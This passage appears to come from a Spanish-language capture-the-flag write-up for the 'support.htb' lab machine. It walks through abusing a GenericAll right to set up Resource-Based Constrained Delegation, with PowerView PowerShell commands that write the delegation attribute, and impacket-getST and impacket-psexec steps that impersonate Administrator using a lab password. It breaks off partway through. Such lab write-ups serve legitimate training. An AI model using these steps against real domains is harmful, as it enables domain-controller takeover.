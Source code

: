 Posteriormente hacemos lo siguiente 

```powershell
# Obtener el SID del equipo que queremos usar para la delegación
$ComputerSid = (Get-DomainComputer FAKECOMPUTER -Properties objectsid).objectsid
# Crear un descriptor de seguridad para configurar la delegación 
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Y por ultimo hacemos 

```powershell
# Aplicar la delegación basada en recursos al equipo objetivo 
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Seguimos estos pasos y se debería ver de la siguiente manera

![](Pasted%20image%2020250220232956.png)
*Preparación para el abuso del privilegio GenericAll*

En nuestra maquina de atacante lo que hacemos ahora es lo siguiente:

![](Pasted%20image%2020250220233021.png)
*Solicitud de ticket de servicio*

#### **Desglose de los parámetros:**

- `impacket-getST`: Herramienta de Impacket que obtiene un **Service Ticket (ST)** utilizando **S4U2Self y S4U2Proxy**.
- `-spn cifs/dc.support.htb`: Especifica el **Service Principal Name (SPN)** del servicio al que queremos autenticarnos. En este caso, se está apuntando al `CIFS` (Common Internet File System) del **controlador de dominio (DC)** en `support.htb`.
- `-impersonate Administrator`: Intenta **impersonar** al usuario **Administrator** en el dominio.
- `-dc-ip 10.10.11.174`: Dirección IP del **controlador de dominio** (`Domain Controller`).
- `support.htb/attackersystem$:Summer2018!`: Credenciales de autenticación en el formato `DOMINIO/USUARIO:CONTRASEÑA`. Aquí, `attackersystem$` es probablemente una **cuenta de máquina** (denotada por `$` al final).

Si todo sale bien ahora podemos ingresar al controlador de dominio haciendo lo siguiente


![](Pasted%20image%2020250220233032.png)
*Ingreso al sistema como Administrador*

- `KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache`
    
    - Define la variable de entorno para usar un **ticket Kerberos en caché**, en lugar de credenciales de usuario y contraseña.
    - Este ticket se obtuvo previamente mediante un ataque de **Resource-Based Constrained Delegation (RBCD)**.
- `impacket-psexec`
    